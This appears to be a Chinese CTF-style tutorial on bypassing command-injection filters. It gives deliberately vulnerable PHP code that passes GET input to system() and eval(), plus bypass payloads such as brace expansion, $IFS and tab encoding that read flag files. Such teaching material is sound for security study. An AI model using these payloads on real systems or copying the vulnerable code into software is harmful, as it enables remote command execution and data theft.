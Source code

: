 ## 空格过滤绕过

```php
<?php
header("content-type:text/html;charset=utf-8");
highlight_file(__FILE__);
error_reporting(0);
$cmd = $_GET["cmd"];
if(isset($cmd)){
    $cmd = preg_replace("# #","",$cmd);
    echo "过滤后的命令：".$cmd."</br >";
    echo "命令执行结果如下：";
    system($cmd);
}
?>
```

1. 大括号{cat,flag.txt};

2. $IFS代替空格;\$IFS \${IFS} \$IFS\$9

   ```shell
   Linux下有一个特殊的环境变量叫做IFS,叫做内部字段分隔符(internal field separator)
   ?cmd=ls$IFS-l
   单纯$IFS,IFS2被bash解释器当作变量名而无法输出结果,加一个{}就固定了变量名
   ?cmd=ls${IFS}-l
   $IFS$9 - 后面加个$与{}类似,起截断作用,$9是当前系统shell进程第九个参数持有者,始终为空字符串
   ?cmd=ls$IFS$9-l
   ```

3. 重定向字符<

   ```shell
   "<"表示的是输入重定向的意思,就是把<后面跟的文件取代键盘作为新的输入设备
   ?cmd=cat<flag.php
   ```

4. %09(Tab) %20(space)

   ```shell
   ?cmd=cat%09flag.php
   ```

## 文件名过滤绕过

```php
<?php
header("content-type:text/html;charset=utf-8");
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['cmd'])) {
    $cmd = $_GET['cmd'];
    if (!preg_match("/flag|system|php/i", $cmd)) {
        eval($cmd);
    }
    else{
        echo "命令有问题哦，来黑我丫！！！";
        }
}
flag|system|php被过滤
```
